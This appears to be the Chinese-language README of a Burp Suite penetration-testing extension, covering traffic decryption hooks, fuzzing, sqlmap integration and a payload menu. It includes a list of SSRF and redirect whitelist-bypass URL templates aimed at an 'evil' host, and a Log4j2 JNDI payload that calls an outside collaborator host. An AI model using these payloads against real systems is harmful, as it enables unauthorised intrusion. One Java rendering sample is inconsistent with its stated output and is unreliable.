










# Galaxy

**Burp Suite Extension**

功能比较杂，多是出于便捷考虑，将需要多次或无法手动在Burp上完成的操作自动化。

# 注意事项

1. 在第一次导入Jar包时，会在用户目录下生成`.galaxy`文件夹，并创建项目所需要的文件/路径，[简介](#工作路径简介)

2. 该项目UI仅提供一个按钮`reload`，每次修改`config.yaml`都需要reload,  [简介](#配置简介)

3. 该项目倾向于写一些表达式来代替繁琐的配置，表达式相关的基础能力介绍见[简介](#基础能力)。


# 功能梳理

> 标题带*为待实现
>

## 1. HTTP Traffic Auto Modification

通过配置或代码修改HTTP流量

### 1.1. HTTP Traffic Hook

**场景**

很多网站都有HTTP请求&响应加解密/加签，这使得想要修改请求或响应报文变得不便，该功能意在通过写少量代码的方式，在Burp展示已解密后的请求&响应，并在用户修改后自动加密给到server/client。

**实现**

利用Burp的API分别提供四个Hook函数

**hookRequestToBurp**，在HTTP请求从客户端到达Burp时被调用，在此处完成请求解密的代码就可以在Burp中看到明文的请求报文

**hookRequestToServer**，在HTTP请求从Burp将要发送到Server时被调用，在此处完成请求加密的代码就可以将加密后的请求报文发送到Server

**hookResponseToBurp**，在HTTP请求从Server到达Burp时被调用，在此处完成响应解密的代码就可以在Burp中看到明文的响应报文

**hookResponseToClient**，在HTTP请求从Burp将要发送到Client时被调用，在此处完成响应加密的代码就可以将加密后的响应报文返回给Client

**示例**

[服务端代码](https://github.com/outlaws-bai/PyGRpcServer/blob/main/server_fast.py)  `/getUserInfo` 接口会获取加密请求，解密后查询，再返回加密响应给前端



#### 1.1.1. Rpc

代码见[PyGRpcServer](https://github.com/outlaws-bai/PyGRpcServer)

[RPC服务代码](https://github.com/outlaws-bai/PyGRpcServer/blob/main/server_rpc.py)来做自动化加解密



修改部分配置如下，并启动两个测试服务

```yaml
httpTrafficAutoModificationConfig:
  hookConfig:
    hookRequestToBurp: true
    hookRequestToServer: true
    hookResponseToBurp: true
    hookResponseToClient: true
    requestMatcher: ''request.host=="172.22.39.254"''
    rpcConn: 127.0.0.1:8443
    service: RPC
    scriptPath: 'C:\\Users\\outlaws\\.galaxy\\hook.mvel'
    javaFilePath: 'C:\\Users\\outlaws\\.galaxy\\Hook.java'
```

#### 1.1.2. Script

修改scriptPath的文件内容，修改部分配置，启动用于测试的服务端

```yaml
httpTrafficAutoModificationConfig:
  hookConfig:
    hookRequestToBurp: true
    hookRequestToServer: true
    hookResponseToBurp: true
    hookResponseToClient: true
    requestMatcher: ''request.host=="172.22.39.254"''
    rpcConn: 127.0.0.1:8443
    service: SCRIPT
    scriptPath: 'C:\\Users\\outlaws\\.galaxy\\hook.mvel'
    javaFilePath: 'C:\\Users\\outlaws\\.galaxy\\Hook.java'
```


#### 1.1.3 Java File

修改javaFilePath的文件内容，修改部分配置，启动用于测试的服务端

> javaFilePath使用Java或已编译的Class均可以。不过如果使用Java文件，不能删除本插件的jar包，因为需要用于编译Java文件

```yaml
httpTrafficAutoModificationConfig:
  hookConfig:
    hookRequestToBurp: true
    hookRequestToServer: true
    hookResponseToBurp: true
    hookResponseToClient: true
    requestMatcher: ''request.host=="172.22.39.254"''
    rpcConn: 127.0.0.1:8443
    service: JAVA_FILE
    javaFilePath: 'C:\\Users\\outlaws\\.galaxy\\Hook.java'
    scriptPath: 'C:\\Users\\outlaws\\.galaxy\\hook.mvel'
```


**效果**

正常情况下，请求&响应被加密



使用后，请求及响应被修改为明文，Repeater中也可以使用





### 1.2. HTTP Traffic Decorate

**场景**

想要在请求或响应做一些简单的修改，比如添加或删除Header，可以通过内置的表达式引擎写一段表达式直接完成

**实现**

执行配置的表达式，并分别传入HTTP请求/响应对象，表达式可以自动对HTTP请求/响应对象进行修改

**示例**

修改部分配置如下

```yaml
httpTrafficAutoModificationConfig:
  decorateConfig:
    requestDecorate: 'request.getHeaders().add("test", "test")'
    responseDecorate: 'response.getHeaders().add("test", "test")'
```



### 1.3. HTTP Traffic Special Rule Match

**场景**

当HTTP的请求或响应中出现可能存在漏洞的参数名称/请求头名称时，设置该HTTP Traffic高亮

**实现**

现在有三部分的特证匹配（三个Map的配置含义key -> paramName, value -> score）

**requestParamMatches**，获取HTTP请求中的所有参数名称(包括query、form、json中的每一级)
，循环判断参数是否在该Map中，在则增加积分

**responseHeaderMatches**，获取HTTP响应中的所有请求头名称，循环判断请求头名称是否在该Map中，在则增加积分

**responseContentMatches**，获取HTTP响应，循环判断paramName是否在HTTP响应中，在则增加积分

根据最终的score设置颜色，分数越高流量颜色约醒目

**示例**

修改部分配置如下

```yaml
httpTrafficAutoModificationConfig:
  specialRuleMatchConfig:
    requestParamMatches: 
      url: 5
      fileUrl: 5
    responseContentMatches: 
      x-powered-by: 3
      server: 3
    responseHeaderMatches: {}
```



## 2. Bypass

### 2.1. Bypass Url

**场景**

发现了可能存在SSRF或URL重定向的测试点，存在host白名单验证，想要Bypass

**实现**

读取`dict/bypassUrlDict.txt`文件中的绕过字符串模板，并通过自定义的字符串模板渲染能力进行渲染后作用于测试点

**示例**

`dict/bypassUrlDict.txt`文件内容

```
${originUrl.protocol}://${evilUrl.host}
//${evilUrl.host}
${originUrl.protocol}://${originUrl.host}.${evilUrl.host}
${originUrl.protocol}://${evilUrl.host}?${originUrl.host}
${originUrl.protocol}://${evilUrl.host}/${originUrl.host}
${originUrl.protocol}://${evilUrl.host}%ff@@${originUrl.host}
${originUrl.protocol}://${evilUrl.host}%ff.${originUrl.host}
${originUrl.protocol}://${originUrl.host}%25253F@@${evilUrl.host}
${originUrl.protocol}://${originUrl.host}%253F@@${evilUrl.host}
${originUrl.protocol}://${originUrl.host}%3F@@${evilUrl.host}
${originUrl.protocol}://${originUrl.host}@@${evilUrl.host}
${originUrl.protocol}://foo@@${evilUrl.host}:80@@${originUrl.host}
${originUrl.protocol}://foo@@${evilUrl.host}%20@@${originUrl.host}
${originUrl.protocol}://foo@@${evilUrl.host}%09@@${originUrl.host}
${originUrl.protocol}://${evilUrl.host}[@@${originUrl.host}
```




### 2.2. Bypass Path

**场景**

通过接口文档或其它方式发现了某个存在漏洞的接口，但WAF或程序的鉴权规则禁止对该接口的访问，想要Bypass

**实现**

利用WAF或程序鉴权规则与程序路由匹配规则的逻辑不统一，具体可参考 [浅谈 URL 解析与鉴权中的陷阱](https://tttang.com/archive/1899/)

获取到请求中路径后，通过`BypassTools#generateBypassPathPayloads`生成一系列绕过的payload

**示例**


### 2.3. Bypass IP

增加常见Hop By Hop传输IP的请求头, 值默认为127.0.0.1

在Repeater中请求编辑器右键即可

## 3. Fuzz

提供与Fuzz相关的功能

### 3.1. Fuzz Sensitive Path

**场景**

在微服务盛行的当下，很多公司对外提供服务的某个域名，都会通过一定的转发规则(反向代理)，将请求代理到不同的服务，
例如某个接口为`/api/user/getUserInfo`会转发到user服务的`/getUserInfo`，如果只对该域名的根目录进行路径扫描，会错失一些漏洞

**实现**

读取`dict/fuzzSensitivePathDict.txt`文件的敏感路径，再通过如下逻辑对生成的所有接口进行扫描

以`/api/user/getUserInfo`接口为例，假设我们想要扫描`/actuator`，通过处理后会生成如下接口

```
/actuator
/api/actuator
/api/user/actuator
```

**示例 - 用法1**

`dict/fuzzSensitivePathDict.txt`文件内容

```
/actuator
```


**示例 - 用法2**

在Target页面选中多个请求，右键找到该名称的按钮进行该功能。

> 但由于无法像在Intruder中那样展示所有的流量，所以这种情况下所发送的请求都会被转到Organizer模块展示


### 3.2. Fuzz Sensitive Path And Bypass

在Fuzz Sensitive Path的基础上增加Bypass Path的功能，用法一样

### 3.3. Fuzz Swagger Docs

**场景**

在已获取到一份Swagger接口文档的情况下，接口很多，逐个处理较为费时

**实现**

解析Swagger接口文档，生成每个接口的测试请求、自动化解析参数代入、发送请求、并发送流量到Burp的Organizer模块

**示例**

略

### 3.4. Extract FuzzDict

**场景**

当发现某个可能存在问题的接口，但无法获取入参，需要通过fuzz的方式测试有哪些入参，但由于不同公司不同业务可能有不同的命名习惯，需要手动总结fuzz的参数列表

**实现**

分析多个流量，获取请求&响应中的header名称、cookie键值、参数名称(包括query、form、json的每一级)、路径、action(path的最后一段)
创建`FuzzDict`对象并输出至`.galaxy/fuzzDicts`文件夹下

**示例**

在Target页面，选择多个请求，右键找到"ExtractInfo"，即可批量导出请求中的路径、参数等信息




## 4. Cloud(*)

想做云安全相关的

### 4.1. Cloud Singer(*)

云资源一般使用签名作为认证, 该功能可以利用配置中的对应AK、SK对当前请求进行签名

## 5. Mixed

### 5.1. Json To Query

将json参数转为query参数, 深层json对象toString

### 5.2. Query To Json

将query参数转为json

### 5.3. Message To SqlMap

在配置中增加了sqlmap的路径及默认参数的情况下; 在Repeater的Request编辑器在需要测试的位置输入*, 然后右键选中该按妞,
会创建临时文件(在Burp退出时自动删除)并调用sqlmap

### 5.4. Url To Repeater

在任意Request or Response编辑器选中Url, 会将Url转为请求报文并发送至Repeater

## 6. Payload

存储常用的payload, 在repeater中使用

### 单个插入

```yaml
payloadConfig: 
  log4j2:
    simple: "$${jndi:ldap://${BurpUtil.generateCollaboratorPayload()}}"
```

> 此处{jndi前使用双$是因为该payload格式与渲染字符串的表达式标记格式正好相符，两个$$相当于转义

此时在Repeater模块右键 ，可以逐级找到名为simple的MenuItem，点击后即可生成Payload到鼠标选择的位置


### 批量插入

将payload插入请求的每一个参数后(query、form、json的每一级)，常用与对所有参数进行批量测试，提升速度


此时在Repeater模块右键 ，可以逐级找到名为multi下的MenuItem，点击后即可生成Payload到每个位置。

例如此处在每个参数后增加了1000个9



# 工作路径简介

```
+ dict // 字典，可copy 项目下的同名字典
  | bypassUrlDict.txt // 用于 2.1. Bypass Url 的字典, 可使用 2.1. Bypass Url 中示例的字典
  | fuzzSensitivePathDict.txt // 用于 2.2. Bypass Path 的字典，可参考dirsearch
+ extract // 存放该项目提取出的文件
+ tmp // 存放临时文件，会在burp关闭时自动删除
| config.yaml // 配置文件
| hook.mvel // 用于Http Hook Script服务的脚本存放
```

# 配置简介

```yaml
httpTrafficAutoModificationConfig: # 功能梳理 - 1 HTTP流量自动修改相关的配置
  decorateConfig: # 功能梳理 - 1.2 利用表达式引擎对请求和响应做一些简单的修改
    requestDecorate: ''
    responseDecorate: ''
  hookConfig: # 功能梳理 - 1.1 调用远程RPC服务完成四个不同阶段HTTP请求或响应的修改
    hookRequestToBurp: false
    hookRequestToServer: false
    hookResponseToBurp: false
    hookResponseToClient: false
    requestMatcher: '' # 表达式，用于判断当前请求是否要进行Hook
    service: RPC # hook所使用的sevice, 有RPC、SCRIPT、JAVA_FILE
    rpcConn: 127.0.0.1:8443 # 当service为RPC，RPC Server的连接串
    scriptPath: 'C:\\Users\\outlaws\\.galaxy\\hook.mvel' # 当service为SCRIPT，脚本路径
    javaFilePath: 'C:\\Users\\outlaws\\.galaxy\\Hook.java' # 当service为JAVA_FILE时的java或class文件
  specialRuleMatchConfig: # 功能梳理 - 1.3 使用不同的匹配规则计算score
    requestParamMatches: {}
    responseContentMatches: {}
    responseHeaderMatches: {}
mixedConfig: # 功能梳理 - 5
  sqlMapConfig: # 功能梳理 - 5.3 配置SQLMAP的文件路径及默认运行参数
    arg: --force-ssl --risk=3 --level=3
    path: sqlmap
cloudConfig: # 功能梳理 - 4 不同云的配置
  awsConfig:
    ak: ''
    region: ''
    service: s3
    sk: ''
    token: ''
payloadConfig: {} # payload, Map<String, Object>, Object可以是String, List, Map，会自动逐级生成Menu和MenuItem
```

# 基础能力

## 表达式渲染

```java
Request request = Request.of("https://www.baidu.com");
String template = "request.host";

HashMap<String, Object> env = new HashMap<>();
env.put("request", request);

String res = Render.renderExpression(template, env);
// www.baidu.com
```

## 字符串渲染

引擎会将${expression}或@{expression}中的expression当作表达式执行再渲染，当$或@需要作为其本身使用时，需要双写转义，如 [点击](#单个插入) 中的log4j2 的payload

```java
URL originUrl = new URL("https://www.baidu.com");
URL evilUrl = new URL("https://www.evil.com");
String template = "${request.protocol}://${evilUrl.host}%ff.${request.host}";

HashMap<String, Object> env = new HashMap<>();
env.put("originUrl", originUrl);
env.put("evilUrl", originUrl);

String res = Render.renderTemplate("${request.protocol}://${evilUrl.host}%ff.${request.host}", env);
// https://www.evil.com%ff.www.baidu.com
```

# 参考文档

[burp javadoc](https://portswigger.github.io/burp-extensions-montoya-api/javadoc/burp/api/montoya/MontoyaApi.html)

[burp ext examples](https://github.com/PortSwigger/burp-extensions-montoya-api-examples)

[express](http://mvel.documentnode.com/)